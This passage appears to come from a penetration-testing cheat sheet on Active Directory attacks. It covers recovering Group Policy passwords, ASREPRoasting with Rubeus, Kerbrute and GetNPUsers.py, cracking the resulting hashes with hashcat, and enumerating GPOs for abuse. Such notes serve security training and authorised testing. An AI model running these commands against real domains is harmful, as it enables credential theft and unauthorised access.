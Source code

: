 This GPP passwords can be found manually or by using [Get-GPPPasswords.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.
```console
zero@pio$ crackmapexec smb -L | grep gpp
```

It is also possible to find passwords in files such as Registry.xml when autologon is configured via Group Policy. We can hunt for this using CrackMapExec with the gpp\_autologin module, or using the Get-GPPAutologon.ps1 script included in PowerSploit.
```console
zero@pio$ crackmapexec smb <IP> -u <USER> -p <PASSWORD> -M gpp_autologin
```

### ASREPRoasting 

It is possible to obtain the TGT for any account with the **Do not requier Kerberos pre-authentication** enabled. ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. We can search the users with:
```console
PS C:\zeropio> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

If we found a user we can use Rubeus:
```console
PS C:\zeropio> .\Rubeus.exe asreproast /user:<USER> /nowrap /format:hashcat
```

And then crack with mode **18200**:
```console
zero@pio$ hashcat -m 18200 <HASH> <WORDLIST>
```

When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication:
```console
zero@pio$ kerbrute userenum -d <DOMAIN>.local --dc <DC IP> <WORDLIST>
```

We can use now [Get-NPUsers.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetNPUsers.py) to hunt all users with Kerberoast pre-authentication not required:
```console
zero@pio$ GetNPUsers.py <DOMAIN>.LOCAL/ -dc-ip <DC IP> -no-pass -usersfile valid_ad_users 
```

### Group Policy Object (GPO) Abuse 

Group Policy provides administrators with many advanced settings that can be applied to both user and computer objects in an AD environment.  GPO misconfigurations can be abused to perform the following attacks:
- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

We can use tools like [Group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon) or [PingCastle](https://www.pingcastle.com/) to enumerate them. Or PowerView:
```console
PS C:\zeropio> Get-DomainGPO |select displayname
```
